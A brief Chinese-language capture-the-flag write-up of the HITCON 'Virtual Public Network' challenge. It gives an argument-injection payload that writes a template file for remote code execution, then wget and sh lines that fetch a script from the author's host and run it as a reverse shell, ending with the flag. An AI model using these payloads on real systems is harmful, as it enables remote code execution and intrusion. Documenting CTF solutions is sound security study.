 # Virtual Public Network

這題其實根本是簽到題，只要看完 Orange 的 Paper 就能解了

`-r$x="ls /",system$x# 2>./tmp/kaibro.thtml <` 可以寫進 template

然後在 backdoor 的地方去 require 就能 RCE

=> `$READ_FLAG$ FLAG bin boot dev etc home initrd.img initrd.img.old lib lib64 lost+found media mnt opt proc root run sbin snap srv sys tmp usr var vmlinuz vmlinuz.old`

繞`$`，可以簡單 Reverse shell 一下即可

`wget kaibro.tw -O /tmp/kaibro`

`sh /tmp/kaibro`

=> `hitcon{Now I'm sure u saw my Bl4ck H4t p4p3r :P}`


